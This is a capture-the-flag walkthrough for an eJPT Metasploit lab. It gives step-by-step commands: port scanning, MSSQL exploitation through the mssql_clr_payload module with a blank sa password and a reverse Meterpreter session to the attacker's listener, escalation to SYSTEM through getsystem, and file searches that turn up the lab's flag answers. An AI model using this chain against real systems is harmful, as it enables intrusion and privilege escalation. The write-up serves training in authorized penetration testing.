







# Host & Network Penetration Testing: The Metasploit Framework CTF 1 Walkthrough

## Overview

This walkthrough documents the methodology used to solve the **The Metasploit Framework CTF 1** Skill Check Lab from the eJPT course. The objective was to use Metasploit and manual investigation techniques to gain access to the target system, escalate privileges, and capture all four flags hidden throughout the environment.

> **Disclaimer:** This writeup is intended for educational purposes only and was conducted in an authorized training environment provided by INE/eLearnSecurity.

---

# Lab Environment

The lab provided GUI access to a Kali Linux machine with a single target system.

## Target

```text
target.ine.local
```

## Objectives

| Flag | Objective |
|--------|-----------|
| Flag 1 | Gain access to the MSSQLSERVER account and retrieve the first flag |
| Flag 2 | Locate the second flag within the Windows configuration folder |
| Flag 3 | Find the third flag hidden somewhere within the system directory |
| Flag 4 | Investigate the Administrator directory and retrieve the final flag |

---

# Initial Enumeration

Since only one target was available, the first step was to perform a full TCP port scan and service enumeration to identify the attack surface.

## Starting Metasploit Database

```bash
service postgresql start && msfconsole
```

## Nmap Scan

```bash
db_nmap -sV -sC -O -T4 -p- target.ine.local
```

### Scan Objectives

* Discover open ports
* Identify running services
* Detect service versions
* Execute default NSE scripts
* Fingerprint the operating system

---

# MSSQL Enumeration

While reviewing the scan results, an MSSQL service was discovered.

```text
10.5.16.13\MSSQLSERVER
```

Since the first flag specifically referenced the MSSQLSERVER account, this service became the primary attack vector.

### Screenshot



---

# Gaining Initial Access

After multiple rounds of enumeration and testing different Metasploit modules, I discovered that the MSSQL server allowed authentication through the Metasploit MSSQL modules.

## MSSQL Login Enumeration

Using the Metasploit MSSQL login module, I identified that authentication was possible and began enumerating available access.

Once access was confirmed, I moved to code execution.

---

# Exploitation

Metasploit provides a dedicated module capable of executing payloads through MSSQL CLR assemblies.

## Module Used

```text
exploit/windows/mssql/mssql_clr_payload
set RHOSTS target.ine.local
set LHOST eth1
set LPORT 4444
set USER sa
set password "" #blank 
exploit
```

After configuring the module appropriately and executing the exploit, a Meterpreter session was successfully obtained.

### Screenshot



---

# Session Upgrade

To improve stability and post-exploitation capabilities, the Meterpreter session was upgraded.

```bash
sessions -u 2
```

The upgraded session provided a more reliable environment for privilege escalation and flag hunting.

### Screenshot



---

# Flag 1

The first flag required access to the MSSQLSERVER account.

After obtaining a Meterpreter session, I began searching the root of the system drive.

## Enumerating the Root Directory

```cmd
dir C:\
```

A flag file was identified and its contents were retrieved.

### Flag 1

```text
a31fb7dfcc3e46ae8bfb05bc291d650d
```

### Screenshot



---

# Hunting for Flag 2

The second objective indicated that the flag was hidden somewhere within the Windows configuration folder.

My first assumption was that the flag would likely reside somewhere under:

```text
C:\Windows\System32
```

However, attempting to access several protected directories revealed that the current Meterpreter session did not possess sufficient privileges.

---

# Privilege Escalation

Before continuing the search, privilege escalation was required.

## Checking Available Privileges

Using Meterpreter, I checked the available token privileges.

```bash
getprivs
```

During enumeration, an important privilege was identified:

```text
SeImpersonatePrivilege
```

This privilege is commonly abused on Windows systems to elevate privileges to SYSTEM.


---

## Escalating to SYSTEM

Meterpreter provides a built-in privilege escalation mechanism.

```bash
getsystem
```

The privilege escalation succeeded and the session was elevated to:

```text
NT AUTHORITY\SYSTEM
```

At this point, previously restricted directories became accessible.


# Flag 2

With SYSTEM privileges obtained, I revisited the Windows configuration directories.

While enumerating the configuration files and subdirectories, the second flag was discovered.


### Screenshot



---

# Flag 3

The third challenge hinted that the flag was hidden somewhere within the Windows system directory.

Since manually traversing every directory would be inefficient, I used a recursive search to identify all text files within System32.

## Recursive Search

```cmd
dir C:\Windows\System32\*.txt /s /b
```

The search returned several results.

One file immediately stood out:

```text
C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
```

Reading the file revealed the third flag.

### Flag 3

```text
537442e13ff949e4a796a5b3e03ba715
```

### Screenshot



---

# Flag 4

The final challenge hinted that the flag was located somewhere within the Administrator directory.

Since SYSTEM privileges had already been obtained, accessing Administrator-owned files was straightforward.

## Administrator Enumeration

```cmd
cd C:\Users\Administrator
dir
```

Further inspection of the Administrator Desktop directory revealed the final flag file.

```cmd
cd Desktop
type flag.txt
```

### Flag 4

```text
1d40dc3da090486aa8a0dc528a928f2e
```

### Screenshot



---

# Key Takeaways

This lab demonstrated several important offensive security concepts:

* MSSQL service enumeration
* Metasploit database integration
* MSSQL exploitation using CLR payloads
* Meterpreter session management
* Windows privilege enumeration
* Abuse of SeImpersonatePrivilege
* Privilege escalation to NT AUTHORITY\SYSTEM
* Recursive file hunting techniques
* Windows post-exploitation methodology

The most important lesson from this lab is that initial access is often only the first step. Thorough privilege enumeration can reveal powerful privileges such as **SeImpersonatePrivilege**, which can be leveraged to gain SYSTEM-level access and unlock the remainder of the attack path.

---

Happy Hacking!